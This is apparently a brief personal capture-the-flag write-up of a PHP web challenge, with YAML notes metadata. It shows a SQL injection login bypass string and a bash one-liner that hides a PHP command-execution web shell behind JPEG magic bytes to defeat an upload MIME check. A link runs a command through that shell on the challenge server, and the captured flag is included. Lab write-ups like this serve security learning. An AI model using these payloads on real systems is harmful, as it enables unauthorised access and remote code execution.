 ```yaml
---
ai_date: 2025-04-27 05:21:11
ai_summary: Login bypass via SQL injection, payload executed in upload via magic bytes manipulation
ai_tags:
  - sql
  - xss
  - magic.mime
created: 2024-08-03T22:15
tags:
  - php
  - mime
updated: 2025-07-14T09:46
---
```


## login

Login bypass with naïve SQL injection.

```
kumo' or '1'='1
```

## upload

Bypass hypothetical mime type check via magic bytes.

Referenced [magic.mime)](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime)

```
# JPEG images
0	beshort		0xffd8		image/jpeg
```

```bash
echo -e '\xff\xd8<?php system($_GET['cmd']); ?>' > payload.jpg.php
```

## exploit

[188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls /](http://188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls%20/)
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722738101/2024/08/c8e388ba9b17413494cbaa7025c7db4c.png)

```flag
MSEC{s0me_T1me_I_w1sh_I4m_aC@t_noW0rk_noDeAdl1ne_JustMe0oow}
```

Not sure where is P1.